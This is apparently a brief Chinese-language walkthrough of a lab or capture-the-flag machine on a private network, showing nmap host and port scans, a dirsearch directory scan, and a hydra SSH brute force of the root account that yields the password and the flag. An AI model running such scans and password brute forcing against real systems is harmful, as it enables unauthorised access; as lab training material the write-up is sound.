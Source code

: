 

主机探测

```
nmap -sn 192.168.56.0/24
```

![image-20250603143227611](./assets/image-20250603143227611.png)

确定靶机ip：192.168.56.103



端口扫描

```
sudo nmap -sT -p- --min-rate 10000 192.168.56.103 -oN ./portscan
```

![image-20250603143331283](./assets/image-20250603143331283.png)

开放了22和80端口



访问80端口

![image-20250603143202599](./assets/image-20250603143202599.png)



尝试目录扫描

```
dirsearch -u http://192.168.56.103
```

![image-20250603143516815](./assets/image-20250603143516815.png)

无结果

更换字典同样无结果



利用hydra爆破ssh服务

```
hydra -l root -P /usr/share/seclists/Passwords/xato-net-10-million-passwords-1000.txt -F ssh://192.168.56.103 
```

![image-20250603143643077](./assets/image-20250603143643077.png)

得到root用户密码

```
root:simple
```

ssh登录后得到flag

```
ssh root@192.168.56.103
```

![image-20250603143148968](./assets/image-20250603143148968.png)